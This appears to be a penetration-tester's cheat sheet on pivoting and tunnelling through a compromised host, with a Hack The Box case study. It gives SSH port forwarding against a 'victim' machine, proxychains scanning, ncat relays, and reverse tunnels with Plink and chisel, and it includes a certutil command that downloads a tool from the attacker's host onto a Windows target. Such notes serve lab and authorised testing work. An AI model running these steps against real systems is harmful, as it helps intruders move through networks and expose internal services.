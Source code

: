 ### Proxytunnel

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234

### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh -R [local_port]:127.0.0.1:[service_port] [username]@[victim_ip]

or

ssh -L [your_local_port]:127.0.0.1:[service_port] [username]@[victim_ip]
```

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  
## Plink
- Download Plink.exe

- download plink on windows
- cd user/filder
- certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
- edit /etc/ssh/sshd_config
- uncomment PermitRootLogin and set as yes
 
on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>
  
## chisel
https://github.com/jpillora/chisel/releases/tag/v1.7.4

- chisel serve on linux: 
```
./chisel server -p 9999 --reverse -v
```

- chisel client on windows
```
chisel.exe client <your_linux_ip>:9000 R:widnows_service_port:127.0.0.1:widnows_service_port
e.g:
chisel.exe client 10.10.14.49:9999 R:8888:127.0.0.1:8888
```
